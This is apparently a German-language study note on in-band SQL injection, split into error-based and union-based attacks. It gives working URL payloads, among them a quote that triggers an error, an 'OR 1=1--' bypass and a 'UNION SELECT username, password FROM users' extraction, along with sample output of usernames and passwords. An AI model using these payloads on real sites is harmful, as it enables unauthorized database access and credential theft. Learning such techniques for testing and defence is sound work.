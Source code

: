 Zu unterscheiden in "Error Based" oder "Union Based".

# Error-Based
```sql
// Input
www.random.com/app.php?id =' // Das Hochkomma 
// Output
You have an error in your SQL syntax...
```
Weitere In-Band Attacken
```sql
https://insecure-website.com/products?category=Gifts'+OR+1=1--
//White-Box
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1 
```

# Union-Based
```sql
// Input
www.random.com/app.php?id =' UNION SELECT username, password FROM users \--
// Output
carlos
asdklsdf
administrator
asjklhnöshf
```
